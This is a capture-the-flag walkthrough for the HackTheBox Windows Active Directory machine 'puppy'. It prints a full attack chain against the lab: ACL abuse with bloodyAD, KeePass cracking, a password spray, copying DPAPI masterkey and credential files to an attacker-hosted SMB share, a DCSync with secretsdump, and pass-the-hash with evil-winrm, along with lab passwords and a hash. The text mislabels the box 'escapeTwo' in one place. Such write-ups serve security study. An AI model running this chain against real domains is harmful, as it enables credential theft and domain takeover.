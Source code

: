 ```yaml
---
categories:
- CTF
layout: post
image:
  path: preview.png
media_subpath: /assets/posts/2025-07-04-puppy-hackthebox
tags:
- hackthebox
- windows
- active directory
- acl
title: puppy @ HackTheBox
---
```

puppy is an medium Windows machine on [hackthebox.eu](https://www.hackthebox.eu). Starting credentials are given to you. Enumerating our starting account, we find ourselfs being apart of the HR group which has GenericWrite over the developers group. We add ourselfs to the Developers group which allows us to access the DEV SMB folder. Downloading the files we find a recovery key for keepass. Cracking this file gives us several usernames and passwords. Spraying these creds gains us access to a new account. This account is apart of the Senior Devs who has GenericAll over a user. Reseting their password gains us access to their account.
However, the account is set to disabled, using ldapmodify, we can enable the account. With this new user, they have a hidden file on their desktop, this file is encrypted using Windows DPAPI. By hosting your own smb share locally, we grab masterkey and the credentials file. Using impackets dpapi, decrypt the file with the masterkey to gain access to a new account. With this new user account, we can perform a desync attack on the domain controller, dumping the administrator hash and gaining control over the domain controller.

## User & Root Flag
This post is a walkthrough for escapeTwo, an medium machine on [hackthebox.eu](https://www.hackthebox.eu). 

The initial scan (`nmap -Pn -n -sC -sV -p- 10.129.168.239`) shows the following results:
```
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-04 23:43:26Z)
111/tcp   open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
2049/tcp  open  nlockmgr      1-4 (RPC #100021)
3260/tcp  open  iscsi?
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49691/tcp open  msrpc         Microsoft Windows RPC
57284/tcp open  msrpc         Microsoft Windows RPC
57299/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-07-04T23:45:14
|_  start_date: N/A
|_clock-skew: 6h59m59s
```
## Fixing clock skew
```
sudo systemctl stop systemd-timesyncd
sudo ntpdate 10.129.168.239
```

## levi.james
Looking through bloodhound, levi.james is apart of the HR group who has GenericWrite over `Developers`.
![capture-1](capture-1.PNG)
```
bloodyAD --host '10.129.168.239' -d 'dc.puppy.htb' -u 'levi.james' -p 'KingofAkron2025!' add groupMember DEVELOPERS levi.james
```
![capture-3](capture-3.PNG)
Once we add ourselfs to the developers group, we can access the `DEV` smb share.

![capture-4](capture-4.PNG)
Downloading the files, we can use a keepass script to brute force the password.<br>
[keepass script](https://github.com/r3nt0n/keepass4brute)
![capture-5](capture-5.PNG)
Accessing this file reveals several usernames and passwords.
![capture-6](capture-6.PNG)
Using these usernames and passwords, we can spray them against the DC.
![capture-8](capture-8.PNG)

## ant.edwards
With a new username and password, we can access to ant's account.
Using bloodhound, we find that ant is apart of the senior developers group who has GenericAll privileges over adam.silver.
![capture-9.PNG](capture-9.PNG)
Using bloodyAD, we can reset his password.
```
bloodyAD --host '10.129.168.239' -d 'dc.puppy.htb' -u 'ant.edwards' -p 'Antman2025!' set password ADAM.SILVER Password123!
```
![capture-10.PNG](capture-10.PNG)
However, the account is disabled, so we'll have to enable it.
![capture-11.PNG](capture-11.PNG)
```
ldapsearch -x -H ldap://10.129.168.239 -D "ANT.EDWARDS@PUPPY.HTB" -W -b "DC=puppy,DC=htb" "(sAMAccountName=ADAM.SILVER)"
```
![capture-14.PNG](capture-14.PNG)

## adam.silver
Using `dir -h` in adam's desktop, we find a weird file.
This is most likely a hint towards DPAPI.
![capture-19.PNG](capture-19.PNG)
Create a shared smb folder (create a folder named share)
```
impacket-smbserver share ./share -smb2support
```
With the SMB share set up, copy the credentials and master key over.
```
copy "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407" \\10.10.16.48\share\masterkey

copy "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9" \\10.10.16.48\share\credentials
```
![capture-20.PNG](capture-20.PNG)
![capture-21.PNG](capture-21.PNG)
Using impackets dpapi, we can decrypt the masterkey.
```
impacket-dpapi masterkey -file masterkey -password 'ChefSteph2025!' -sid S-1-5-21-1487982659-1829050783-2281216199-1107
```
![capture-22.PNG](capture-22.PNG)
Using this key, we can then use it with the credentials file to get a new username and password.
![capture-23.PNG](capture-23.PNG)

## steph.cooper_adm
Viewing bloodhound, steph can perform a desync attack, allowing us to dump the hashes of the domain controller.
![capture-24.PNG](capture-24.PNG)
```
impacket-secretsdump 'puppy.htb/steph.cooper_adm:FivethChipOnItsWay2025!@10.129.232.128' 
```
![capture-25.PNG](capture-25.PNG)
```
evil-winrm -i 10.129.168.239 -u 'Administrator' -H 'bb0edc15e49ceb4120c7bd7e6e65d75b'
```